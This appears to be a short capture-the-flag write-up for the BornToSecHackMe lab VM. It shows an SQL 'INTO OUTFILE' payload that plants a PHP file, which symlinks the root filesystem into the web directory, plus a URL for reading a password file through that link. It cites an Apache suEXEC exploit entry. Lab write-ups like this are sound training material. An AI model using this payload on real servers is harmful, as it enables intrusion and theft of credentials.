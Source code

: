 [See detailed writeup here](../writeup1.md)

Now after connecting to Phpmyadmin as root, this time we will use the Apache suEXEC vulnerability instead of a webshell.

```
zaz@BornToSecHackMe:~$ apache2 -v
Server version: Apache/2.2.22 (Ubuntu)
Server built:   Jul 24 2015 17:25:42
```

```
https://www.exploit-db.com/exploits/27397
```

You can analyze it in more detail from here.


```
SELECT 1, '<?php symlink(\"/\", \"lujiangz\");?>' INTO OUTFILE '/var/www/forum/templates_c/suexec.php'
```

When we execute this, we symbolically link the `/` directory (root directory) and name it `lujiangz`.
Now all we need to do is visit the `/forum/templates_c/suexec.php` endpoint to perform the exploit. Then we can look at the `/forum/templates_c/lujiangz` file.


After that

```
https://192.168.193.128/forum/templates_c/lujiangz/home/LOOKATME/password
```

Just like in Writeup1, we can continue on our way to become a root in 4 different ways.